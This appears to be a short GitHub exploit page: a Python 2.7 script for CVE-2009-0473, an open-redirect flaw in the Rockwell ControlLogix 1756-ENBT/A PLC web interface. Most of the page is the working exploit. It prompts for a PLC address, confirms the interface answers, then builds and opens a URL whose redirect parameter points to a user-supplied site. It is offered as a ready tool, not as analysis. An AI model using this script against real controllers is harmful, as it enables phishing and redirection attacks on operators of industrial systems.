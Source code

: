 INFO
----

    ## Description
    Simple script to exploit open redirection vulnerability in Rockwell ControlLogix 1756-ENBT/A.

    ##Vulnerability Details
    https://www.cvedetails.com/cve/CVE-2009-0473/

    ###Requirements
    * Python 2.7
    * You must be running an X Windows environment before executing this script.
    * It will use Python’s “webbrowser” library to open the site using the default browser.

EXP
---

    #Author : Akbar Qureshi

    import webbrowser
    import urllib2

    class colors:
        alert = '\033[93m'
        end = '\033[0m'
    print colors.alert + """
    ###########################################################################
    # Description: This script will exploit the open redirction vulnerability #
    #          in Rockwell ControlLogix 1756-ENBT/A           #
    # CVE Details: https://www.cvedetails.com/cve/CVE-2009-0473/          #
    ###########################################################################
    """ + colors.end

    plcurl = raw_input("Enter the plc web interface url: ")
    try:
            url = urllib2.urlopen('http://%s' % plcurl, timeout=5)
    except:
            print "Cannot open url,please try again"
    else:
            open_redir = raw_input("Enter open redirection URL: " )
            url = "http://%s/index.html?redirect=//%s" % (plcurl,open_redir)
            webbrowser.open(url,new=1)